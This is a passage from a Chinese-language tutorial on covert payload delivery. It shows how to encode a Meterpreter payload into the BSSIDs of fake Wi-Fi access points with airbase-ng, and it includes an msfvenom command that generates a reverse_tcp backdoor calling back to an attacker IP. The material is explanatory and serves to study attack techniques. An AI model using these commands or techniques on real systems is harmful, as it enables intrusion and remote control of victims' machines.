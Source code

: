 注意：你可以在bash脚本“Script2.sh”文件中使用循环命令，例如使用（for）。

如图A所示，我们有script1.sh文件，用于将Meterpreter 有效载荷注入到BSSID。

[![](./img/85745/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a9b6dbcf1d2a61c2.png)

图A

如图A所示，Meterpreter 有效载荷从第3行开始。在本文中我的Meterpreter 有效载荷是510字节。在这种情况下，使用airbase-ng命令可以为名为“Fake”的伪造AP注入5字节的有效载荷到BSSID。因此我们应该有102行用于通过airbase-ng命令将所有的有效载荷注入到BSSID。

102 * 5 = 510字节

注意：每个BSSID包含5个字节的有效载荷。

```
BSSID = 00：fc：48：83：e4：f0
```

{5字节} ==&gt; fc-48-83-e4-f0

在这种情况下，应将两个BSSID MAC地址添加到script1.sh文件。

如图A所示，我的脚本在第2行有MAC地址00：ff：ff：ff：ff：ff，这个Mac地址或BSSID是启动攻击和传输流量到被感染系统的标志，再如图B所示，此文件应该以BSSID {00：ff：00：ff：00：ff}结束。



```
BSSID Flag for Start  =  00:ff:ff:ff:ff:ff
BSSID Flag for Finish = 00:ff:00:ff:00:ff
```

BSSID注入循环：改变BSSID（102 + 2）= 104次。

[![](./img/85745/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01351b470defc57f2d.png)

图B

如图C所示，可以看到第二个脚本script2.sh文件，在这个文件中可以使用循环命令，例如（For）。

[![](./img/85745/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016de043bf3535ad0b.png)

图C

在 “script2.sh” 文件中，应该至少kill airbase-ng 104次。

<br>

**具体分析**

接下来我要通过我的工具（NativePayload_BSSID.exe）来逐步分析这个方法：

步骤如下：

**步骤0：**创建Wlan0mon（监控模式）。

语法：airmon-ng start wlan0

[![](./img/85745/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t018fdeaf9805e7c342.png)

**步骤1：**使用以下命令生成一个后门有效载荷：

```
msfvenom -a x86_64 --platform windows -p windows / x64 / meterpreter / reverse_tcp lhost = 192.168.1.50 -f c&gt; payload.txt
```
